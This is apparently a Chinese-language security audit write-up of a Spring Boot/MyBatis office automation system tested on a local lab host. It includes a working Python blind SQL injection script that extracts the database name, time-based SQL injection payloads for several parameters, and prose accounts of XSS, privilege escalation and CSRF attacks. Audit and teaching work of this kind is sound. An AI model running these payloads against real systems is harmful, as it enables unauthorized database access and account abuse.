## 项目技术栈

#### 前端

| 技术            | 名称                 | 版本                            | 官网                                            |
| --------------- | -------------------- | ------------------------------- | ----------------------------------------------- |
| freemarker      | 模板引擎             | springboot1.5.6.RELEASE集成版本 | https://freemarker.apache.org/                  |
| Bootstrap       | 前端UI框架           | 3.3.7                           | http://www.bootcss.com/                         |
| Jquery          | 快速的JavaScript框架 | 1.11.3                          | https://jquery.com/                             |
| kindeditor      | HTML可视化编辑器     | 4.1.10                          | [http://kindeditor.net](http://kindeditor.net/) |
| My97 DatePicker | 时间选择器           | 4.8 Beta4                       | http://www.my97.net/                            |

#### 后端

| 技术       | 名称            | 版本          | 官网                                                         |
| ---------- | --------------- | ------------- | ------------------------------------------------------------ |
| SpringBoot | SpringBoot框架  | 1.5.6.RELEASE | https://spring.io/projects/spring-boot                       |
| JPA        | spring-data-jpa | 1.5.6.RELEASE | https://projects.spring.io/spring-data-jpa                   |
| Mybatis    | Mybatis框架     | 1.3.0         | http://www.mybatis.org/mybatis-3                             |
| fastjson   | json解析包      | 1.2.36        | https://github.com/alibaba/fastjson                          |
| pagehelper | Mybatis分页插件 | 1.0.0         | [https://pagehelper.github.io](https://pagehelper.github.io/) |

## 一、项目依赖审计

​	1、springframework命令执行漏洞（失败）

```xml
<dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
</dependency>
```

​	该依赖存在命令执行漏洞，但是不具备利用条件

## 二、单点漏洞审计

### 1、SQL注入

​	在全局搜索中搜索${，发现有如下文件中的SQL语句使用$

​	

#### address-mapper.xml

​	语句如下：



​	我们发现这里有多个参数都使用了$，向上追溯：



​	发现在路由outaddresspaging调用了该方法

​	根据功能点，定位到前端的外部通讯录。

##### alph

​	通过审计我们可以发现，pinyin就是alph，经过测试我们可以确认alph参数存在SQL注入，具体流程如下：

​	我们先创建一个名字为A的外部联系人

如下：



​	这一步是为了让like有数据，这样我们才能执行后面的语句。根据测试我们发现可以进行SQL盲注，因此我们有如下的python脚本：

```python
import requests
def send_post_request(url, false_len, cookies=None ):
    for i in range(1, 6):
        for k in range(33, 127):
            data = {
                "alph": f"A\'and ascii(substr(database(),{i},1))={k}--+qwe"
            }
            #print(data)
            response = requests.post(url, data=data, cookies=cookies)
            #print(len(response.text))
            if len(response.text) != false_len:
                print(f"{chr(k)}" , end='')
                break
            else:
                pass
if __name__ == "__main__":
    # 设置请求的URL
    url = "http://172.21.46.127:8888/outaddresspaging"
    # 设置请求的Cookie
    cookies = {
        "JSESSIONID": "1E514058317178F919F2084D177556DE",
    }
    data = {
        "alph": "A'and ascii(substr(database(),1,1))=1--+qwe"
    }
    #print(data)
    respond=requests.post(url, data=data, cookies=cookies)
    false_len=len(respond.text)
    #print(false_len)
    # 发送POST请求
    send_post_request(url , false_len, cookies)
```

​	我们可以成功的爆出库名



##### outtype

​	对于这个参数，注入方式与第一个参数相同，payload如下

```
alph=A&outtype='and+sleep(5)--+qwe
```

​	alph等于是为了让前面的判断有数据，这样我们才能执行后面的sleep函数。

##### baseKey

​	与前一个同理，payload如下：

```
alph=A&outtype=&baseKey='and+sleep(4)--+qwe
```

#### notice-mapper.xml



​	同样的，我们向上追溯：



​	根据路由，我们来到通知列表，又根据查询语句猜测，该处实现的功能点是搜索功能。随便搜索后抓包，抓得如下数据包

```http
GET /informlistpaging?baseKey= HTTP/1.1
Host: 172.21.46.127:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://172.21.46.127:8888/infromlist
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=1E514058317178F919F2084D177556DE
Connection: close
```

​	直接扔给sqlmap就能跑出来，payload如下：

```http
http://172.21.46.127:8888/informlistpaging?baseKey=' AND (SELECT 7001 FROM (SELECT(SLEEP(5)))nIdf) AND 'FglX'='FglX
```

### 2、任意文件操控（读取，写入，上传）

​	根据前端的文件管理里的文件管理功能点，点击上传，定位路由在/fileupload。

​	经过审计和测试发现确实不拦截任何的文件上传，但是由于该项目不解析JSP，jar包也无法执行，文件的名字也遭到了修改，无法目录穿透，因此该漏洞无法利用。

​	同时该功能点中也存在下载文件的功能，但是由于该下载功能使用的是id查询数据库中文件的信息，再进行下的方式进行的下载，因此不存在任意文件下载。

​	并未找到文件读取的功能点。

### 3、SSRF

​	该项目没有找到远程请求的实现。

### 4、XXE

​	项目中没有找到解析XML的功能点。

### 5、模板注入

​	根据依赖包中的信息我们可知，该项目使用freemark作为模板引擎，但并未找到任何修改模板和上传模板的功能点。

### 6、命令执行

​	没有找到命令执行的代码实现

## 三、前端渗透测试

### 1、XSS

​	经过测试，可以发现该项目多处存在XSS漏洞。



### 2、越权漏洞

​	创建一个低权限用户，登陆后我们使用该低权限的cookie去测试。

​	经过测试发现该项目多处存在越权漏洞。

​	如类型管理，我们使用admin创建一个test：



​	点击删除后抓包，将admin用户的cookie替换为test用户的cookie

​	再查看类型管理我们可以看到test已被删除。

### 3、CSRF

​	我们以test用户的身份写一个便签test：



​	抓包后，使用BP自动创建一个CSRF的利用POC。

​	我们再以管理员的身份去访问这个POC


​	可以看到，我们成功触发攻击。从前面我们可知该项目存在多出的XSS漏洞，那么我们XSS+CSRF即可实现以管理员的身份创建一个便签，并对管理实现XSS攻击。

​	以test用户的身份创建一个便签，并写上XSS攻击的payload：



​	同样的我们使用BP创建攻击POC，然后以管理员身份访问


​	可以看到成功触发攻击。

​	至此该OA系统审计完毕。
